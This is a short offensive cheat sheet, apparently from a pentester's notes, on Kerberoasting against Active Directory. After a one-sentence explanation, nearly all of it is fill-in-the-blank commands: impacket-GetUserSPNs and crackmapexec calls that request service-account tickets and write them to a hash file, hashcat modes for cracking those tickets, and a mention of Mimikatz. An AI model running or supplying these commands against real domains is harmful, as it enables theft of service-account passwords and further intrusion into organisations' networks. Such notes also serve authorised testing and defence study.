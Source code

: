 # Kerberoasting
Kerberoasting takes advantage of how service accounts leverage Kerberos authentication with Service Principal Names (SPNs). By default, all standard domain users can request a copy of all service accounts ST (with SPN value set) along with their correlating password hashes.

hashcat -m 13100 etype 23
hashcat -m 19600 etype 17
hashcat -m 19700 etype 18

`impacket-GetUserSPNs -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>'`

`impacket-GetUserSPNs -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' -outputfile kerb.hash`

`crackmapexec ldap <IP> -u '<USER>' -p '<PASS>' --kerberoasting <OUTPUT.TXT>`

`Mimikatz`